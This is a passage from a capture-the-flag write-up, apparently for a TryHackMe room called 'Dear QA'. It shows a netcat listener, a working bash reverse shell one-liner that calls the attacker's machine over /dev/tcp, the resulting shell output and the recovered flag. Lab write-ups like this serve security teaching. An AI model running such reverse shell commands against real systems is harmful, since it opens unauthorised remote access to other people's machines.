 Yep, the target machine can reach out to me. **Let's get a reverse shell then!**

- Setup a `nc` listener:

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Dear_QA]
└─# nc -lnvp 443   
listening on [any] 443 ...
```

- Send a bash reverse shell:

```
ctf@dearqa:/home/ctf$ $ /bin/bash -i >& /dev/tcp/10.18.61.134/443 0>&1
```

```
[...]
connect to [10.18.61.134] from (UNKNOWN) [10.10.16.159] 45074
bash: cannot set terminal process group (444): Inappropriate ioctl for device
bash: no job control in this shell
ctf@dearqa:/home/ctf$ whoami;hostname;id;ip a
whoami;hostname;id;ip a
ctf
dearqa
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),115(bluetooth)
[...]
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 02:98:78:d9:a6:87 brd ff:ff:ff:ff:ff:ff
    inet 10.10.16.159/16 brd 10.10.255.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::98:78ff:fed9:a687/64 scope link 
       valid_lft forever preferred_lft forever
ctf@dearqa:/home/ctf$ 
```

Yes!!! We have output now! Let's get the flag!

**flag.txt:**
```
ctf@dearqa:/home/ctf$ cat /home/ctf/flag.txt
THM{Redacted}
```

# Conclusion

What we've learned:

1. Reverse Engineering
2. Linux 64-Bit Binary Buffer Overflow